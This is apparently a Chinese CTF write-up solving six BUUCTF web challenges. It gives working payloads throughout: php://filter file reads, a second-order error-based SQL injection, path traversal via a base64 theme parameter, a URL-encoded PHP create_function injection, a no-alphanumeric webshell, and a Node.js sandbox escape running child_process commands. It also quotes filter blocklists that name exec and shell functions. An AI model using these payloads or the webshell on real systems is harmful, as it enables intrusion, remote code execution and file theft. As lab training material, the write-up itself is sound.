

[buuctf] web区 write up 3
===

## [b01lers2020]Welcome to Earth

### 题解

刚进来就显示在一个逃脱界面, 十秒钟之后就转到了 `/die/` 下并显示你挂了, 还挺幽默。


看了下 JS 源码, 10秒设置了自动跳转 `/die/`, 另外还有个 `/chase/ 目录`:

```js
document.onkeydown = function(event) {
        event = event || window.event;
        if (event.keyCode == 27) {
          event.preventDefault();
          window.location = "/chase/";
        } else die();
      };

      function sleep(ms) {
        return new Promise(resolve => setTimeout(resolve, ms));
      }

      async function dietimer() {
        await sleep(10000);
        die();
      }

      function die() {
        window.location = "/die/";
      }

      dietimer();
```

下一个界面是类似的, 类似的操作后来到 `/leftt/` 界面, 审计源码, 发现:

```html
<button onClick="window.location='/die/'">Take the shot</button>
<!-- <button onClick="window.location='/shoot/'">Take the shot</button> -->
```

最后来到这个 `/door/` 目录下:


并且调用了一个 checkdoor() 的 js 函数, 在 F12 控制台能直接看见:


转到 `/open/`, 直接审计代码, 找到 `open_sesame.js`:

```js
function sleep(ms) {
  return new Promise(resolve => setTimeout(resolve, ms));
}

function open(i) {
  sleep(1).then(() => {
    open(i + 1);
  });
  if (i == 4000000000) window.location = "/fight/";
}
```

最终转到打外星人的页面:

```js
// Run to scramble original flag
//console.log(scramble(flag, action));
function scramble(flag, key) {
  for (var i = 0; i < key.length; i++) {
    let n = key.charCodeAt(i) % flag.length;
    let temp = flag[i];
    flag[i] = flag[n];
    flag[n] = temp;
  }
  return flag;
}

function check_action() {
  var action = document.getElementById("action").value;
  var flag = ["{hey", "_boy", "aaaa", "s_im", "ck!}", "_baa", "aaaa", "pctf"];

  // TODO: unscramble function
}
```

重组一下, 结果是: `pctf{hey_boys_im_baaaaaaaaaack!}`, 直接就是最终 flag。

> ~神人题目~

## [CISCN2019 华北赛区 Day1 Web5]CyberPunk

### 题解

#### 文件包含

打开发现是一个下单+增删改查界面, 打开源码, 发现在主页末尾有提示:


用伪协议读出来:

```
http://5ec022d3-25df-43c9-b02a-893de2e98b98.node5.buuoj.cn:81/?file=php://filter/convert.base64-encode/resource=index.php
```


#### 代码审计



<!-- tab index.php -->

index.php:

```php
<?php

ini_set('open_basedir', '/var/www/html/');

// $file = $_GET["file"];
$file = (isset($_GET['file']) ? $_GET['file'] : null);
if (isset($file)){
    if (preg_match("/phar|zip|bzip2|zlib|data|input|%00/i",$file)) {
        echo('no way!');
        exit;
    }
    @include($file);
}
?>
```

<!-- endtab -->

<!-- tab search.php -->

search.php:

```php
<?php

require_once "config.php"; 

if(!empty($_POST["user_name"]) && !empty($_POST["phone"]))
{
    $msg = '';
    $pattern = '/select|insert|update|delete|and|or|join|like|regexp|where|union|into|load_file|outfile/i';
    $user_name = $_POST["user_name"];
    $phone = $_POST["phone"];
    if (preg_match($pattern,$user_name) || preg_match($pattern,$phone)){ 
        $msg = 'no sql inject!';
    }else{
        $sql = "select * from `user` where `user_name`='{$user_name}' and `phone`='{$phone}'";
        $fetch = $db->query($sql);
    }

    if (isset($fetch) && $fetch->num_rows>0){
        $row = $fetch->fetch_assoc();
        if(!$row) {
            echo 'error';
            print_r($db->error);
            exit;
        }
        $msg = "<p>姓名:".$row['user_name']."</p><p>, 电话:".$row['phone']."</p><p>, 地址:".$row['address']."</p>";
    } else {
        $msg = "未找到订单!";
    }
}else {
    $msg = "信息不全";
}
?>
```

<!-- endtab -->

delete.php:

<!-- tab delete.php -->

```php
<?php

require_once "config.php";

if(!empty($_POST["user_name"]) && !empty($_POST["phone"]))
{
    $msg = '';
    $pattern = '/select|insert|update|delete|and|or|join|like|regexp|where|union|into|load_file|outfile/i';
    $user_name = $_POST["user_name"];
    $phone = $_POST["phone"];
    if (preg_match($pattern,$user_name) || preg_match($pattern,$phone)){ 
        $msg = 'no sql inject!';
    }else{
        $sql = "select * from `user` where `user_name`='{$user_name}' and `phone`='{$phone}'";
        $fetch = $db->query($sql);
    }

    if (isset($fetch) && $fetch->num_rows>0){
        $row = $fetch->fetch_assoc();
        $result = $db->query('delete from `user` where `user_id`=' . $row["user_id"]);
        if(!$result) {
            echo 'error';
            print_r($db->error);
            exit;
        }
        $msg = "订单删除成功";
    } else {
        $msg = "未找到订单!";
    }
}else {
    $msg = "信息不全";
}
?>
```

<!-- endtab -->

change.php:

<!-- tab change.php -->

```php
<?php

require_once "config.php";

if(!empty($_POST["user_name"]) && !empty($_POST["address"]) && !empty($_POST["phone"]))
{
    $msg = '';
    $pattern = '/select|insert|update|delete|and|or|join|like|regexp|where|union|into|load_file|outfile/i';
    $user_name = $_POST["user_name"];
    $address = addslashes($_POST["address"]);
    $phone = $_POST["phone"];
    if (preg_match($pattern,$user_name) || preg_match($pattern,$phone)){
        $msg = 'no sql inject!';
    }else{
        $sql = "select * from `user` where `user_name`='{$user_name}' and `phone`='{$phone}'";
        $fetch = $db->query($sql);
    }

    if (isset($fetch) && $fetch->num_rows>0){
        $row = $fetch->fetch_assoc();
        $sql = "update `user` set `address`='".$address."', `old_address`='".$row['address']."' where `user_id`=".$row['user_id'];
        $result = $db->query($sql);
        if(!$result) {
            echo 'error';
            print_r($db->error);
            exit;
        }
        $msg = "订单修改成功";
    } else {
        $msg = "未找到订单!";
    }
}else {
    $msg = "信息不全";
}
?>
```

<!-- endtab -->

confirm.php:

<!-- tab confirm.php -->

```php
<?php

require_once "config.php";
//var_dump($_POST);

if(!empty($_POST["user_name"]) && !empty($_POST["address"]) && !empty($_POST["phone"]))
{
    $msg = '';
    $pattern = '/select|insert|update|delete|and|or|join|like|regexp|where|union|into|load_file|outfile/i';
    $user_name = $_POST["user_name"];
    $address = $_POST["address"];
    $phone = $_POST["phone"];
    if (preg_match($pattern,$user_name) || preg_match($pattern,$phone)){
        $msg = 'no sql inject!';
    }else{
        $sql = "select * from `user` where `user_name`='{$user_name}' and `phone`='{$phone}'";
        $fetch = $db->query($sql);
    }

    if($fetch->num_rows>0) {
        $msg = $user_name."已提交订单";
    }else{
        $sql = "insert into `user` ( `user_name`, `address`, `phone`) values( ?, ?, ?)";
        $re = $db->prepare($sql);
        $re->bind_param("sss", $user_name, $address, $phone);
        $re = $re->execute();
        if(!$re) {
            echo 'error';
            print_r($db->error);
            exit;
        }
        $msg = "订单提交成功";
    }
} else {
    $msg = "信息不全";
}
?>
```

<!-- endtab -->

config.php:

<!-- tab config.php -->

```php
<?php

ini_set("open_basedir", getcwd() . ":/etc:/tmp");

$DATABASE = array(

    "host" => "127.0.0.1",
    "username" => "root",
    "password" => "root",
    "dbname" =>"ctfusers"
);

$db = new mysqli($DATABASE['host'],$DATABASE['username'],$DATABASE['password'],$DATABASE['dbname']);
```

<!-- endtab -->



审计可以发现, 网站对 user_name 和 phone 的过滤比较严格, 但是对地址( `$address`) 几乎没有处理, 而更新信息的时候, 地址不加审查的直接拼接到更新语句中, 显然是存在二次注入:

> 信息差: 此题官方说明了 flag 在根目录而不是数据库中, ~真坑~

#### 二次注入

构造 payload:

```
1' where user_id=updatexml(1,concat(0x7e,(select substr(load_file('/flag.txt'),1,20)),0x7e),1)#
```

用 3 个订单分别修改一次, 分别差子串的起始位置为 1, 20, 40, 拼起来得到flag: `flag{0b769d97-5b7d-4a9f-8e2f-4e3ba84fbb77}`

> 用 3 个订单是因为每次报错注入的时候其实都把这个订单给打爆了, 要另开一个, 重复改是无效的;

## [GKCTF 2021]easycms

### 题解

看了眼提示, 后台密码是五位弱口令;

打开网站是一个 CMS 界面, 点击登录按钮没有反应, 可能是存在管理员专用的登录页面。


扫一下, 扫出了 admin.php:


进入后台登录, 根据提示直接输个 12345 试试, 直接登录成功:


CMS 通用的思路, 最大的攻击面是 **插件/自定义主题(RCE)**, 管理员文件上传(webshell)。

自定义一个主题打包下载, 然后复制下载链接:

```
http://05eae77f-a654-451d-bd5c-4309f8a2da21.node5.buuoj.cn:81/admin.php?m=ui&f=downloadtheme&theme=L3Zhci93d3cvaHRtbC9zeXN0ZW0vdG1wL3RoZW1lL2RlZmF1bHQvYTEuemlw
```

最后这一串是一段 base64 编码, 解码后得到: `/var/www/html/system/tmp/theme/default/a1.zip`, 这是主题的绝对路径, 尝试修改一下: `/flag.txt` 或者 `/flag`:

```
http://05eae77f-a654-451d-bd5c-4309f8a2da21.node5.buuoj.cn:81/admin.php?m=ui&f=downloadtheme&theme=L2ZsYWc=
```

将下载的文件以文本格式打开, 得到 `flag{51b67735-98b8-4ba8-88b8-0742c9496e95}`

## [BJDCTF2020]EzPHP

### 找界面

点进来有个注释:


尝试了一下, 是 base32 编码 (和 base64 最大的区别是 **不含小写字母**):


点进来又是典中典之代码审计:

{ % hideToggle 1nD3x.php % }

```php
 <?php
highlight_file(__FILE__);
error_reporting(0); 

$file = "1nD3x.php";
$shana = $_GET['shana'];
$passwd = $_GET['passwd'];
$arg = '';
$code = '';

echo "<br /><font color=red><B>This is a very simple challenge and if you solve it I will give you a flag. Good Luck!</B><br></font>";

if($_SERVER) { 
    if (
        preg_match('/shana|debu|aqua|cute|arg|code|flag|system|exec|passwd|ass|eval|sort|shell|ob|start|mail|\$|sou|show|cont|high|reverse|flip|rand|scan|chr|local|sess|id|source|arra|head|light|read|inc|info|bin|hex|oct|echo|print|pi|\.|\"|\'|log/i', $_SERVER['QUERY_STRING'])
        )  
        die('You seem to want to do something bad?'); 
}

if (!preg_match('/http|https/i', $_GET['file'])) {
    if (preg_match('/^aqua_is_cute$/', $_GET['debu']) && $_GET['debu'] !== 'aqua_is_cute') { 
        $file = $_GET["file"]; 
        echo "Neeeeee! Good Job!<br>";
    } 
} else die('fxck you! What do you want to do ?!');

if($_REQUEST) { 
    foreach($_REQUEST as $value) { 
        if(preg_match('/[a-zA-Z]/i', $value))  
            die('fxck you! I hate English!'); 
    } 
} 

if (file_get_contents($file) !== 'debu_debu_aqua')
    die("Aqua is the cutest five-year-old child in the world! Isn't it ?<br>");


if ( sha1($shana) === sha1($passwd) && $shana != $passwd ){
    extract($_GET["flag"]);
    echo "Very good! you know my password. But what is flag?<br>";
} else{
    die("fxck you! you don't know my password! And you don't know sha1! why you come here!");
}

if(preg_match('/^[a-z0-9]*$/isD', $code) || 
preg_match('/fil|cat|more|tail|tac|less|head|nl|tailf|ass|eval|sort|shell|ob|start|mail|\`|\{|\%|x|\&|\$|\*|\||\<|\"|\'|\=|\?|sou|show|cont|high|reverse|flip|rand|scan|chr|local|sess|id|source|arra|head|light|print|echo|read|inc|flag|1f|info|bin|hex|oct|pi|con|rot|input|\.|log|\^/i', $arg) ) { 
    die("<br />Neeeeee~! I have disabled all dangerous functions! You can't get my flag =w="); 
} else { 
    include "flag.php";
    $code('', $arg); 
} ?> 
```

{ % endhideToggle %}

### 代码审计

1. 首先上来对 `$_SERVER['QUERY_STRING']` 有一段正则匹配, 禁用了一些敏感词, 由于 `$_SERVER['QUERY_STRING']` 是一个预定义的, **未解码**的字符串, 所以可以考虑直接用 URL 编码;

#### PHP 正则匹配

2. `preg_match('/^aqua_is_cute$/', $_GET['debu']) && $_GET['debu'] !== 'aqua_is_cute')`, 这一段中, `preg_match` 在非 `/s` 模式下，会忽略末尾的 `%0a`，可以用 `aqua_is_cute%0a` 来绕过

> 考虑 `debu=aqua_is_cute%0a`

#### 方法优先级

3. `!preg_match('/http|https/i', $_GET['file']`, 考虑使用伪协议, 后面又有一段对字母内容的检测, 卡在这里了, 看了一下 WP, 这里的绕法是: **POST 的优先级比 GET 高，如果参数名相同，最终 `$_REQUEST` 中的值应该是 POST 里那个参数的**。

> 因此这里可以直接传 debu=1&file=2

#### PHP SHA1

4. sha 1 校验这里的知识点是, 在 php 中, `sha1(array)` 会**报错**, 报错的返回值是相同的, 因此这里只要传两个不相等的数组即可绕过。

> 例如 shana[]=1&passwd[]=2

#### 自定义匿名函数

5. 最后是这一段:

```php
if(preg_match('/^[a-z0-9]*$/isD', $code) ||
    preg_match('/fil|cat|more|tail|tac|less|head|nl|tailf|ass|eval|sort|shell|ob|start|mail|\`|\{|\%|x|\&|\$|\*|\||\<|\"|\'|\=|\?|sou|show|cont|high|reverse|flip|rand|scan|chr|local|sess|id|source|arra|head|light|print|echo|read|inc|flag|1f|info|bin|hex|oct|pi|con|rot|input|\.|log|\^/i', $arg) ) {
    die("<br />Neeeeee~! I have disabled all dangerous functions! You can't get my flag =w=");
} else {
    include "flag.php";
    $code('', $arg);
}
```

这里必须用到 `create_function()` 的代码注入。

> 参考文章: [[科普向] 解析create_function() && 复现wp](https://paper.seebug.org/94/)

由于给出了 `$code`, 这里直接构造一个自定义函数: `$code('', $arg);`, 令 `$arg` = `}var_dump(get_defined_vars);//` 即可:

```php
function feng(){
	}var_dump(get_defined_vars);//}
```

#### 构造 Payload

```python
string = """file=data://text/plain,debu_debu_aqua&debu=aqua_is_cute
&shana[]=1&passwd[]=2&flag[code]=create_function&flag[arg]=}var_dump(get_defined_vars());//"""
encoded_string = ''.join('%{:02X}'.format(ord(char)) if ord(char) < 128 and char not in ['&', '[', ']','='] else char for char in string)
print('Encoded string:', encoded_string)
```

运行后强制 URL 编码一遍:

```
?%66%69%6C%65=%64%61%74%61%3A%2F%2F%74%65%78%74%2F%70%6C%61%69%6E%2C%64%65%62%75%5F%64%65%62%75%5F%61%71%75%61&%64%65%62%75=%61%71%75%61%5F%69%73%5F%63%75%74%65%0A&%73%68%61%6E%61[]=%31&%70%61%73%73%77%64[]=%32&%66%6C%61%67[%63%6F%64%65]=%63%72%65%61%74%65%5F%66%75%6E%63%74%69%6F%6E&%66%6C%61%67[%61%72%67]=%7D%76%61%72%5F%64%75%6D%70%28%67%65%74%5F%64%65%66%69%6E%65%64%5F%76%61%72%73%28%29%29%3B%2F%2F
```

> 还要在 POST 里加上 file=1&debu=1 来绕;



回显真正的文件在 rea1fl4g.php 中, 那么需要读这个文件, 由于read被挡了, 用 require + 取反(~) 来绕, 最终payload(GET):

```
?%66%69%6C%65=%64%61%74%61%3A%2F%2F%74%65%78%74%2F%70%6C%61%69%6E%2C%64%65%62%75%5F%64%65%62%75%5F%61%71%75%61&%64%65%62%75=%61%71%75%61%5F%69%73%5F%63%75%74%65%0A&%73%68%61%6E%61[]=%31&%70%61%73%73%77%64[]=%32&%66%6C%61%67[%63%6F%64%65]=%63%72%65%61%74%65%5F%66%75%6E%63%74%69%6F%6E&%66%6C%61%67[%61%72%67]=%7Drequire(~(%8f%97%8f%c5%d0%d0%99%96%93%8b%9a%8d%d0%8d%9a%9e%9b%c2%9c%90%91%89%9a%8d%8b%d1%9d%9e%8c%9a%c9%cb%d2%9a%91%9c%90%9b%9a%d0%8d%9a%8c%90%8a%8d%9c%9a%c2%8d%9a%9e%ce%99%93%cb%98%d1%8f%97%8f)) %3B%2F%2F
```

拿到之后 base64 解码: `flag{9ebb1d38-1a7f-474f-b5de-b4de6e48a044}`


> 虽然名字叫 EZphp, 但其实这道题非常难, 有一点没学好就完全过不了;

## [SUCTF 2018]GetShell

### 题解: 无字符 shell

拿到网站没有什么显示, 先扫了个目录:


看来是个文件上传的题, 到这个界面里, 尝试上传一句话木马及其变种(修改文件头, 文件类型, 隐藏`php`字样等, 都不成功), 再传了个正常图片, 居然依然不成功,最后传了内容只有一个字符的 `test.ini`, 居然成功了, 看来是黑名单过滤, 上传之后会被重命名并且变为 `php` 文件, 看来只要把含 shellcode 的任何文件传上去, 就能直接部署 webshell:


这里还有一段源码:

```php
if($contents=file_get_contents($_FILES["file"]["tmp_name"])){
    $data=substr($contents,5);
    foreach ($black_char as $b) {
        if (stripos($data, $b) !== false){
            die("illegal char");
        }
    }     
} 
```

尝试了一下发现这个过滤比较变态, 连数字和字母都过滤了, 连续 6 个 1 居然都传不上去;

在此之前可以先尝试上传得到一个重要信息: `$` `_`  `'` `%` 是没有被过滤的 (这么看这道题是有意引导去做**无数字字母 webshell**, 可惜我不熟悉), 那么可以用位运算写一个:

无字符 shell 有三种: 异或(^)/取反(~)/自增:

这里 `^` 被过滤了, 用取反, 查找汉字脚本: (来自 P 神):

```php
<?php
header('Content-Type: text/html; charset=utf-8');
$str = '当我站在山顶上俯瞰半个鼓浪屿和整个厦门的夜空的时候，我知道此次出行的目的已经完成了，我要开始收拾行李，明天早上离开这里。前几天有人问我，大学四年结束了，你也不说点什么？乌云发生了一些事情，所有人都缄默不言，你也是一样吗？你逃到南方，难道不回家了吗？当然要回家，我只是想找到我要找的答案。其实这次出来一趟很累，晚上几乎是热汗淋漓回到住处，厦门的海风伴着妮妲路过后带来的淅淅沥沥的小雨，也去不走我身上任何一个毛孔里的热气。好在旅社的生活用品一应俱全，洗完澡后我爬到屋顶。旅社是一个老别墅，说起来也不算老，比起隔壁一家旧中国时期的房子要豪华得多，竖立在笔山顶上与厦门岛隔海相望。站在屋顶向下看，灯火阑珊的鼓浪屿街市参杂在绿树与楼宇间，依稀还可以看到熙熙攘攘的游客。大概是夜晚渐深的缘故，周围慢慢变得宁静下来，我忘记白天在奔波什么，直到站在这里的时候，我才知道我寻找的答案并不在南方。当然也不在北方，北京的很多东西让我非常丧气，包括自掘坟墓的中介和颐指气使的大人们；北京也有很多东西让我喜欢，我喜欢颐和园古色古香的玉澜堂，我喜欢朝阳门那块“永延帝祚”的牌坊，喜欢北京鳞次栉比的老宅子和南锣鼓巷的小吃。但这些都不是我要的答案，我也不知道我追随的是什么，但想想百年后留下的又是什么，想想就很可怕。我曾经为了吃一碗臭豆腐，坐着优步从上地到北海北，兴冲冲地来到那个垂涎已久的豆腐摊前，用急切又害羞的口吻对老板说，来两份量的臭豆腐。其实也只要10块钱，吃完以后便是无与伦比的满足感。我记得那是毕业设计审核前夕的一个午后，五月的北京还不算炎热，和煦的阳光顺着路边老房子的屋檐洒向大地，但我还是不敢站在阳光下，春天的燥热难耐也绝不输给夏天。就像很多人冷嘲热讽的那样，做这一行谁敢把自己完全曝光，甭管你是黑帽子白帽子还是绿帽子。生活在那个时候还算美好，我依旧是一个学生，几天前辞别的同伴还在朝九晚五的工作，一切都照旧运行，波澜不远走千里吃豆腐这种理想主义的事情这几年在我身上屡屡发生，甚至南下此行也不例外。一年前的这个时候我许过一个心愿，在南普陀，我特为此来还愿。理想化、单纯与恋旧，其中单纯可不是一个多么令人称赞的形容，很多人把他和傻挂钩。“你太单纯了，你还想着这一切会好起来”，对呀，在男欢女爱那些事情上，我可不单纯，但有些能让人变得圆滑与世故的抉择中，我宁愿想的更单纯一些。去年冬天孤身一人来到北京，放弃了在腾讯做一个安逸的实习生的机会，原因有很多也很难说。在腾讯短暂的实习生活让我记忆犹新，我感觉这辈子不会再像一个小孩一样被所有人宠了，这些当我选择北漂的时候应该就要想到的。北京的冬天刺骨的寒冷，特别是2015年的腊月，有几天连续下着暴雪，路上的积雪一踩半步深，咯吱咯吱响，周遭却静的像深山里的古刹。我住的小区离公司有一段距离，才下雪的那天我甚至还走着回家。北京的冬天最可怕的是寒风，走到家里耳朵已经硬邦邦好像一碰就会碎，在我一头扎进被窝里的时候，我却慢慢喜欢上这个古都了。我想到《雍正皇帝》里胤禛在北京的鹅毛大雪里放出十三爷，那个拼命十三郎带着令牌取下丰台大营的兵权，保了大清江山盛世的延续与稳固。那一夜，北京的漫天大雪绝不逊于今日，而昔人已作古，来者尚不能及，多么悲哀。这个古都承载着太多历史的厚重感，特别是下雪的季节，我可以想到乾清宫前广场上千百年寂寞的雕龙与铜龟，屋檐上的积雪，高高在上的鸱吻，想到数百年的沧桑与朝代更迭。雪停的那天我去了颐和园，我记得我等了很久才摇摇摆摆来了一辆公交车，车上几乎没有人，司机小心翼翼地转动着方向盘，在湿滑的道路上缓慢前行。窗外白茫茫一片，阳光照在雪地上有些刺眼，我才低下头。颐和园的学生票甚至比地铁票还便宜。在昆明湖畔眺望湖面，微微泛着夕阳霞光的湖水尚未结冰，踩着那些可能被御碾轧过的土地，滑了无数跤，最后只能扶着湖边的石狮子叹气，为什么没穿防滑的鞋子。昆明湖这一汪清水，见证了光绪皇帝被囚禁十载的蹉跎岁月，见证了静安先生誓为先朝而自溺，也见证了共和国以来固守与开放的交叠。说起来，家里有本卫琪著的《人间词话典评》，本想买来瞻仰一下王静安的这篇古典美学巨著，没想到全书多是以批判为主。我自诩想当文人的黑客，其实也只是嘴里说说，真到评说文章是非的时候，我却张口无词。倒是誓死不去发，这点确实让我无限感慨：中国士大夫的骨气，真的是从屈原投水的那一刻就奠定下来的。有句话说，古往今来中国三大天才死于水，其一屈原，其二李白，其三王国维。卫琪对此话颇有不服，不纠结王国维是否能够与前二者相提并论，我单喜欢他的直白，能畅快评说古今词话的人，也许无出其右了吧。人言可畏、人言可畏，越到现代越会深深感觉到这句话的正确，看到很多事情的发展往往被舆论所左右，就越羡慕那些无所畏惧的人，不论他们是勇敢还是自负。此间人王垠算一个，网络上人们对他毁誉参半，但确实有本事而又不矫揉做作，放胆直言心比天高的只有他一个了。那天在昆明湖畔看过夕阳，直到天空变的无比深邃，我才慢慢往家的方向走。耳机放着后弦的《昆明湖》，不知不觉已经十年了，不知道这时候他有没有回首望望自己的九公主和安娜，是否还能够“泼墨造一匹快马，追回十年前姑娘”。后来，感觉一切都步入正轨，学位证也顺利拿到，我匆匆告别了自己的大学。后来也遇到了很多事，事后有人找我，很多人关心你，少数人可能不是，但出了学校以后，又有多少人和事情完全没有目的呢？我也考虑了很多去处，但一直没有决断，倒有念怀旧主，也有妄自菲薄之意，我希望自己能做出点成绩再去谈其他的，所以很久都是闭门不出，琢磨东西。来到厦门，我还了一个愿，又许了新的愿望，希望我还会再次来还愿。我又来到了上次没住够的鼓浪屿，订了一间安静的房子，只有我一个人。在这里，能听到的只有远处屋檐下鸟儿叽叽喳喳的鸣叫声，远处的喧嚣早已烟消云散，即使这只是暂时的。站在屋顶的我，喝下杯中最后一口水。清晨，背着行李，我乘轮渡离开了鼓浪屿，这是我第二次来鼓浪屿，谁知道会不会是最后一次。我在这里住了三天，用三天去寻找了一个答案。不知不觉我又想到辜鸿铭与沈子培的那段对话。“大难临头，何以为之？”“世受国恩，死生系之。”';
for($i=0; $i<mb_strlen($str, 'utf-8'); $i++)
{
	$st = mb_substr($str, $i,1, 'utf-8');
	$a = ~($st);
	$b = $a[1];				#取汉字的第一位
	if($b==$_GET['a'])		#$_GET['a']想要得到的字符
	{
		echo $st;exit;
	}
	}
?>
```

再处理一下, 连换行符都过滤了, 所以都塞进一排:

```php
<?=$_=[];$__.=$_;$____=$_==$_;$___=~茉[$____];$___.=~内[$____];$___.=~茉[$____];$___.=~苏[$____];$___.=~的[$____];$___.=~咩[$____];$_____=_;$_____.=~课[$____];$_____.=~尬[$____];$_____.=~笔[$____];$_____.=~端[$____];$__________=$$_____;$___($__________[~瞎[$____]]);
```

这样就拿到了 webshell

> 后续没法传参, 看了下 WP 没发现问题, 可能是靶机的毛病?

### 参考

> [[P神]一些不包含数字和字母的webshell](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html)

## [HFCTF2020]JustEscape

### 题解:


访问一下 `run.php`:

```php
<?php
if( array_key_exists( "code", $_GET ) && $_GET[ 'code' ] != NULL ) {
    $code = $_GET['code'];
    echo eval(code);
} else {
    highlight_file(__FILE__);
}
?>
```

考虑到提示，又由于 `eval()` 函数不仅仅是 php 含有的，Node.js也有这个函数。先用 `phpinfo()`, 显示未定义, 再用 `Error().stack` 测试，页面回显了一堆错误报错。


说明这里的底层代码是 js, 根据内容应该是一个沙箱逃逸, 先探测一下 WAF 的过滤字符:

```
['for', 'while', 'process', 'exec', 'eval', 'constructor', 'prototype', 'Function', '+', '"',''']
```

用 js 的模板文字拼接就能绕过:

```js
`p`,`r`,`o`,`t`,`o`,`t`,`y`,`p`,`e`
// 或者
`${`${`prototyp`}e`}`
```

原利用:

```js
(function(){
	TypeError.prototype.get_process = f=>f.constructor("return process")();
	try{
		Object.preventExtensions(Buffer.from("")).a = 1;
	}catch(e){
		return e.get_process(()=>{}).mainModule.require("child_process").execSync("whoami").toString();
	}
})()
```

重构一下之后:

```js
(function (){
    TypeError[`${`${`prototyp`}e`}`][`${`${`get_proces`}s`}`] = f=>f[`${`${`constructo`}r`}`](`${`${`return this.proces`}s`}`)();
    try{
        Object.preventExtensions(Buffer.from(``)).a = 1;
    }catch(e){
        return e[`${`${`get_proces`}s`}`](()=>{}).mainModule[`${`${`requir`}e`}`](`${`${`child_proces`}s`}`)[`${`${`exe`}cSync`}`](`cat /flag`).toString();
    }
})()
```


